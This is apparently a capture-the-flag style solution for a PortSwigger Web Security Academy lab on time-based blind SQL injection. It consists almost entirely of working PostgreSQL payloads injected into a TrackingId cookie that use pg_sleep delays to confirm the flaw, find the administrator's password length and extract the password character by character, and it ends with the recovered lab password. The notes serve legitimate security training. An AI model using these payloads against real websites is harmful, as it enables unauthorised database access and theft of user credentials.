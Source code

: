 # Lab: Blind SQL injection with time delays and information retrieval
# https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval

```bash
Cookie: TrackingId=o9wUzXJXTWodlna6' || (select pg_sleep(10))--;      
```
```bash
#First one will make you wait second won't.
Cookie: TrackingId=o9wUzXJXTWodlna6' || (select case when (1=1) then pg_sleep(10) else pg_sleep(0) end)--

Cookie: TrackingId=o9wUzXJXTWodlna6' || (select case when (1=0) then pg_sleep(10) else pg_sleep(0) end)--;
```
```bash
Cookie: TrackingId=o9wUzXJXTWodlna6' || (select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users)--;
```
```bash
Cookie: TrackingId=o9wUzXJXTWodlna6' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(0) end from users)--;
```
```bash
Cookie: TrackingId=o9wUzXJXTWodlna6' || (select case when (LENGTH(password)>1) then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')--;

# We will brute force
# Password Length = 20

# You can also use this version they are same:
TrackingId=o9wUzXJXTWodlna6'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>3)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
```bash
Cookie: TrackingId=o9wUzXJXTWodlna6' || (select case when (substring(password,1,1)='a') then pg_sleep(3) else pg_sleep(0) end from users where username='administrator')--;
# clusterbomb
```
```bash
password: 6xe8w9rdveei10dm2qw6
```
